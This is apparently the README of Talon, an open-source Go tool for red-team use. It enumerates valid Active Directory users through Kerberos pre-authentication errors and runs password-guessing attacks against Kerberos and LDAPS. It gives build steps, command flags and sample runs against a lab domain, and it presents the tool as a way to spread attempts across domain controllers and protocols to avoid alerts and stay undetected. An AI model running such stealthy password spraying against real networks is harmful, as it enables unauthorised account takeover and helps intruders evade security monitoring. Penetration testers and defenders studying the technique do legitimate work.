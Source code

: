 

<h1 align="center">
<br>
<img src=Screenshots/Talon.png>
<br>
</h1>

# Talon


Talon is a tool designed to perform automated password guessing attacks while remaining undetected. Talon can enumerate a list of users to identify which users are valid, using Kerberos. Talon can also perform a password guessing attack against the Kerberos and LDAPS (LDAP Secure) services. Talon can either use a single domain controller or multiple ones to perform these attacks, randomizing each attempt, between the domain controllers and services (LDAP or Kerberos).

More info about the techniques can be found on the following [Blog](https://www.optiv.com/explore-optiv-insights/blog/digging-your-talons-new-take-password-guessing) 

## Usage
Download release for your OS from [releases](https://github.com/optiv/Talon/releases)

## Contributing
Talon was developed in golang.

The first step as always is to clone the repo. Before you compile Talon you'll need to install the dependencies. To install them, run following commands:
```
go get github.com/fatih/color
go get gopkg.in/jcmturner/gokrb5.v7/client
go get gopkg.in/jcmturner/gokrb5.v7/config
go get gopkg.in/jcmturner/gokrb5.v7/iana/etypeID
go get gopkg.in/ldap.v2
```
Then build it

```
go build Talon.go
```

## Usage

```
$ ./Talon -h
Usage of ./Talon:
  -D string
    	Fully qualified domain to use
  -E	Enumerates which users are valid
  -H string
    	Domain controller to connect to
  -Hostfile string
    	File containing the list of domain controllers to connect to
  -K	Test against Kerberos only
  -L	Test against LDAP only
  -O string
    	File to append the results to
  -P string
    	Password to use
  -U string
    	Username to authenticate as
  -Userfile string
    	File containing the list of usernames
  -debug
    	Print debug statements
  -sleep float
    	Time inbetween attempts (default 0.5)
```


## Enumeration Mode
User enumeration mode can be executed with the `-E` flag which will send only Kerberos TGT pre-authentication request to the target KDC, however, this request is sent with a known bad or no longer supported encryption type.  Talon reviews the response by the KDC to determine if responds with a `KDC_ERR_ETYPE_NOSUPP`, which indicates if a user exists or `KDC_ERR_C_PRINCIPAL_UNKNOWN` if it does not. Talon can perform this type of enumeration against multiple domain controllers in an enterprise using the `-Hostfile` command to specify multiple domain controllers, or a single domain controller using `-H`. Using this technique will not cause any login failures so it will not lock out any of the users.

```
./Talon -D STARLABS.LOCAL -Hostfile DCs -Userfile Users -sleep 1 -E 

  __________  ________  ___       ________  ________
  |\___    _\\\   __  \|\  \     |\   __  \|\   ___  \
  \|___ \  \_\ \  \|\  \ \  \    \ \  \|\  \ \  \\ \  \
       \ \  \ \ \   __  \ \  \    \ \  \\\  \ \  \\ \  \
        \ \  \ \ \  \ \  \ \  \____\ \  \\\  \ \  \\ \  \
         \ \__\ \ \__\ \__\ \_______\ \_______\ \__\\ \__\
          \|__|  \|__|\|__|\|_______|\|_______|\|__| \|__|
					          (@Tyl0us)


[-]  172.16.144.195 STARLABS.LOCAL\asmith:  = User Does Not Exist
[+]  172.16.144.185 STARLABS.LOCAL\ballen:  = User Exist
[-]  172.16.144.186 STARLABS.LOCAL\bjohnson:  = User Does Not Exist
[-]  172.16.144.195 STARLABS.LOCAL\bwayne:  = User Does Not Exist
[+]  172.16.144.195 STARLABS.LOCAL\csnow:  = User Exist
[-]  172.16.144.186 STARLABS.LOCAL\jtodd:  = User Does Not Exist
[+]  172.16.144.186 STARLABS.LOCAL\hwells:  = User Exist
[-]  172.16.144.186 STARLABS.LOCAL\wwest:  = User's Account Locked
```

## Automated Password Guessing Mode
Talon utilize Kerberos and LDAP, which are both integrated into Active Directory for authentication. Talon can perform password guessing by alternating between the two services, allowing the password attack traffic to be split across two protocols. This splits the number of potential events generated, as a result reducing the chance of an alert. Talon takes this one step further, by distributing a password attack against multiple domain controllers in an enterprise using the `-Hostfile`, alternating between LDAP and Kerberos each time to create an additional layer of obscurity. A single domain controller can be provided using in the `-H` command if needed.

```
./Talon -D STARLABS.LOCAL -Hostfile DCs -Userfile ValidUsers -P "Not3vil" -sleep 1

  __________  ________  ___       ________  ________
  |\___    _\\\   __  \|\  \     |\   __  \|\   ___  \
  \|___ \  \_\ \  \|\  \ \  \    \ \  \|\  \ \  \\ \  \
       \ \  \ \ \   __  \ \  \    \ \  \\\  \ \  \\ \  \
        \ \  \ \ \  \ \  \ \  \____\ \  \\\  \ \  \\ \  \
         \ \__\ \ \__\ \__\ \_______\ \_______\ \__\\ \__\
          \|__|  \|__|\|__|\|_______|\|_______|\|__| \|__|
					          (@Tyl0us)

                
[-]  172.16.144.186 STARLABS.LOCAL\admin:Not3vil = Failed
[-]  172.16.144.185 STARLABS.LOCAL\ballen:Not3vil = Failed
[-]  172.16.144.195 STARLABS.LOCAL\cramon:Not3vil = Failed
[+]  172.16.144.185 STARLABS.LOCAL\hwells:Not3vil = Success
[-]  172.16.144.195 STARLABS.LOCAL\ssmith:Not3vil = Failed
```

Talon is designed to be versitale given any siutaiton as a result, if only Kerberose is available, Talon can be set to only attack against Kerberos using the `-K` flag or only LDAP using the `-L` flag.

Talon can use both Kerberos and LDAP to read the responses as we perform a password guessing attack. Talon can detect account lockouts during an active password guessing attack by reading the response code from each password attempt. This can help prevent any unwanted account locks acorss a enterprise, helping you to remain undetected. Simply follow the prompt to quit or continue the attack.

```
root@kali:~# ./Talon -Hostfile DCs -Userfile ValidUsers -D STARLABS.local -P "Password!" -sleep 2

  __________  ________  ___       ________  ________
  |\___    _\\\   __  \|\  \     |\   __  \|\   ___  \
  \|___ \  \_\ \  \|\  \ \  \    \ \  \|\  \ \  \\ \  \
       \ \  \ \ \   __  \ \  \    \ \  \\\  \ \  \\ \  \
        \ \  \ \ \  \ \  \ \  \____\ \  \\\  \ \  \\ \  \
         \ \__\ \ \__\ \__\ \_______\ \_______\ \__\\ \__\
          \|__|  \|__|\|__|\|_______|\|_______|\|__| \|__|
					          (@Tyl0us)


[-]  172.16.144.186 STARLABS.LOCAL\ballen:Password! = Failed
[-]  172.16.144.185 STARLABS.LOCAL\csnow:Password! = Failed
[-]  172.16.144.186 STARLABS.LOCAL\wwest:Password! = User's Account Locked
[*] Account lock out detected - Do you want to continue.[y/n]:
```

### Troubleshooting
Talon comes equip to detect if the  targeted domain controllers are activy or become unavialble. This helps ensure your getting accurate results while not wasting time. 


```
root@kali:~# ./Talon -H 172.14.15.1 -Userfile ValidUsers -D STARLABS.local -P "Frosty20" -sleep 2

  __________  ________  ___       ________  ________
  |\___    _\\\   __  \|\  \     |\   __  \|\   ___  \
  \|___ \  \_\ \  \|\  \ \  \    \ \  \|\  \ \  \\ \  \
       \ \  \ \ \   __  \ \  \    \ \  \\\  \ \  \\ \  \
        \ \  \ \ \  \ \  \ \  \____\ \  \\\  \ \  \\ \  \
         \ \__\ \ \__\ \__\ \_______\ \_______\ \__\\ \__\
          \|__|  \|__|\|__|\|_______|\|_______|\|__| \|__|
					          (@Tyl0us)


[Root cause: Networking_Error] Networking_Error: AS Exchange Error: failed sending AS_REQ to KDC: failed to communicate with KDC 172.14.15.1
[*] Do you want to continue.[y/n]:
```



##### Changelog
* Published  on 04/09/2018
* Version 1.2 released 02/14/2019
* Version 1.3 released 05/03/2019
* Version 1.4 released 03/17/2020
* Version 2.0 public relase 06/18/2020
